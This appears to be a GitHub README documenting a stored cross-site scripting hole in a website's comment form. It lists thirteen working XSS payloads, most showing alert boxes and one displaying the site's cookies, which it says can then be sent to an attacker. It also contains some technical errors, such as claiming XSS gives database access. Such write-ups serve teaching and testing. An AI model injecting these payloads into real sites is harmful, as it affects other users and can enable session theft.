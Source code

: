 # Website Link : 

This website is vulnerable in XXS(Cross-Site Scripting).The user input from the comment section is not validated and sanitized.Due to that, XSS scripts(Javascript codes in usual) can be included in the comments.

# XXS(Cross-Site Scripting) Vulnerability Experiment

## Overview

This section documents the XXS vulnerabilities identified in the website []. The vulnerabilities allow unauthorized access to the database, potentially leading to data exposure and manipulation.

## XSS payloads

PLEASE DELETE A COMMENT AFTER THE EXECUTIONS OF THIS COMMENT.WHICH AFFECT THE ANOTHER USER AND YOUR EXPRIENCE.

### 1. Simple Script Alert:
```HTML
<script>alert(\'SCRIPT ALERT\');</script>
```
Explanation: This payload injects a <script> tag directly into the HTML. When the browser encounters this tag, it executes the JavaScript code inside, causing an alert box to pop up with the message "SCRIPT ALERT".

NOTE : the backslash (\) before the single quote (') inside the string tells the interpreter to treat it as a literal character rather than the end of the string.Because comments are passes through the query to save in database, without using backslash causes error and stop the execution of webpage 

### 2. Image Tag with JavaScript:
```HTML
<img src="x" onerror="alert(\'HACKED\')">
```
Explanation: This payload uses an <img> tag with a broken src attribute (x). The onerror attribute specifies JavaScript code to run if an error occurs while loading the image. In this case, it triggers an alert with the message "HACKED".

### 3. Anchor Tag with JavaScript:
```HTML
<a href="javascript:alert(\'YOUR DEVICE IS HACKED\')">Click me</a>
```
Explanation: This payload uses an <a> (anchor) tag with an href attribute set to a JavaScript URI. When the user clicks the link, the browser executes the JavaScript code, causing an alert with the message "YOUR DEVICE IS HACKED".

### 4. Event Handler in a Div:
```HTML
<div onmouseover="alert(\'Do not Touch me\')">Hover over me</div>
```
Explanation: This payload uses a <div> tag with an onmouseover event handler. When the user hovers over the div, the browser executes the JavaScript code, causing an alert with the message "Do not Touch me".

### 5. Body Tag with Onload Event:
```HTML
<body onload="alert(\'DELETE ME\')">
```
Explanation: This payload uses the <body> tag with an onload event handler. When the page loads, the browser executes the JavaScript code, causing an alert with the message "DELETE ME".

### 6. Encoded Characters:
```HTML
<svg onload=alert(\'SVG loaded\')>
```
Explanation: This payload uses an <svg> (Scalable Vector Graphics) tag with an onload event handler. When the SVG is loaded, the browser executes the JavaScript code, causing an alert with the message "SVG loaded".

### 7. Input Field with JavaScript:
```HTML
<input type="text" value="TEXT" onfocus="alert(\'YOU CAN NOT OVERWRITE\')">
```
Explanation: This payload uses an <input> tag with an onfocus event handler. When the user focuses on the input field (e.g., clicks on it), the browser executes the JavaScript code, causing an alert with the message "YOU CAN NOT OVERWRITE".

Note : After execution of this comment, if you receive alert message continously just reload the page.

#### Preventing Continuous Alerts:

You can change the focus to another element after showing the alert:
```HTML
<input type="text" value="TEXT" onfocus="alert(\'YOU CAN NOT OVERWRITE\'); this.blur();">
```

### 8. Malicious URL:
```HTML
<a href="https://fruits.selfmade.solutions" onclick="alert(\'Are you sure?\')">Malicious Link</a>
```
Explanation: This payload uses an <a> (anchor) tag with an onclick event handler. When the user clicks the link, the browser executes the JavaScript code, causing an alert with the message "Are you sure?".

### 9. Textarea Tag:
```HTML
<textarea onfocus="alert(\'YOU CAN NOT OVERWRITE\')">Focus on me</textarea>
```
Explanation: This payload uses a <textarea> tag with an onfocus event handler. When the user focuses on the textarea (e.g., clicks on it), the browser executes the JavaScript code, causing an alert with the message "YOU CAN NOT OVERWRITE".

Note : After execution of this comment, if you receive alert message continously just reload the page.

#### Preventing Continuous Alerts:

You can change the focus to another element after showing the alert:
```HTML
<textarea onfocus="alert(\'YOU CAN NOT OVERWRITE\'); this.blur();">Focus on me</textarea>
```

### 10. Iframe Tag:
```HTML
<iframe src="javascript:alert(\'New Website availble in comment\')"></iframe>
```
Explanation: This payload uses an <iframe> tag with a src attribute set to a JavaScript URI. When the iframe loads, the browser executes the JavaScript code, causing an alert with the message "New Website availble in comment".

### 11. Style Tag with JavaScript:
```HTML
<style>body{background:url("javascript:alert(\'Background Hacked\')");}</style>
```
Explanation: This payload uses a <style> tag to inject CSS that sets the background of the <body> to a JavaScript URI. When the browser parses the CSS, it executes the JavaScript code, causing an alert with the message "Background Hacked".

### 12. SVG with Embedded JavaScript:
```HTML
<svg><script>alert(\'SVG executed\')</script></svg>
```
Explanation: This payload uses an <svg> tag to embed an <script> tag. When the SVG is loaded, the browser executes the JavaScript code inside the <script> tag, causing an alert with the message "SVG executed".

### 13. COOKIE HIJACKING:
```HTML
 <script>alert(document.cookie)</script>
```
Explaination: This payload injects a <script> tag directly into the HTML. When the browser encounters this tag, it executes the JavaScript code inside, will display all the cookies stored by the site in an alert box.Then the cookies can be sent to the attacker's device in many ways.
